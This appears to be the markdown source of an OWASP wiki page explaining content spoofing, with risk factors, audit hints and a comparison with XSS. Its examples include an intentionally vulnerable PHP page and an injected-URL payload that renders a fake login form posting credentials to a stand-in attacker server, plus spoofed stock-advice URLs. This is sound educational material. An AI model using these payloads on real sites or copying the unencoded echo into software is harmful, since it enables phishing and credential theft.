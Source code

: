 ```yaml
---

layout: col-sidebar
title: Content Spoofing
author: 
contributors: Rishu Ranjan
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as *content injection*, "arbitrary
text injection" or *virtual defacement*, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

> Attack Type: Client-Side 

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![Fake-text.png](Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Audit Guideline

Text injection can be easily found if:

User input via parameter or directly in the URL is reflected in the page response.

Content-Type: text/plain

Application is giving default error pages

## Applicable Industries

  - A business entity selling one type of product as a major business
    function

For example, Taxi hailing business, Online shopping business, Online
service business

  - A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

  - Malicious competitors
  - Disgruntled employees
  - Unsatisfied customers
  - Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site
Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink"). While XSS
uses \[<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

<script>

and other techniques\] to run JavaScript, content spoofing uses other
techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1.  Attacker discovers injection vulnerability and decides to spoof a
    login form
2.  Attacker crafts malicious link, including his injected HTML content,
    and sends it to a user via email
3.  The user visits the page due to the page being located within a
    trusted domain
4.  The attacker's injected HTML is rendered and presented to the user
    asking for a username and password
5.  The user enters a username and password, which are both sent to the
    attackers server

<!-- end list -->

  -
    A simple PHP page containing an injection vulnerability via the
    *name* parameter:

<!-- end list -->

    <?php
        $name = $_REQUEST ['name'];
    ?>
    <html>
        <h1>Welcome to the Internet!</h1>
        <br>
        <body>
                Hello, <?php echo $name; ?>!
            <p>We are so glad you are here!</p>
        </body>
    </html>

The page functionality can be tested by making the following GET request
to the page:

    http://127.0.0.1/vulnerable.php?name=test

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named *login.php* on the attacker's server via
POST.

    http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
    action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
    name="password" /><br /><input type="submit" value="Login" /></form><!--

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1.  An attacker identifies a web application that gives recommendations
    to its users on whether they should buy or sell a particular stock
2.  The attacker identifies a vulnerable parameter
3.  The attacker crafts a malicious link by slightly modifying a valid
    request
4.  The link containing the modified request is sent to a user and they
    clicks the link
5.  A valid webpage is created using the attackers malicious
    recommendation and the user believes the recommendation was from the
    stock website

**Valid Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now

Other example:

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Improper Data Validation](Improper_Data_Validation "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

  - <http://capec.mitre.org/data/definitions/148.html>
  - <http://projects.webappsec.org/w/page/13246917/Content%20Spoofing>
  - <http://itlaw.wikia.com/wiki/Content_injection_attack>
  - CERT Advisory on Malicious HTML Tags:
    <http://www.cert.org/advisories/CA-2000-02.html>
  - OWASP's [XSS (Cross Site Scripting) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
  - OWASP Guide to Building Secure Web Applications and Web Services,
    Chapter 8: [Data Validation](Data_Validation "wikilink")
  - HTML Code Injection and Cross-site Scripting:
    <http://www.technicalinfo.net/papers/CSS.html>
  - Case studies (Spotify, LinkedIn, ..etc):
    <https://twitter.com/ncweaver/status/974802236567007232?s=12>

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")
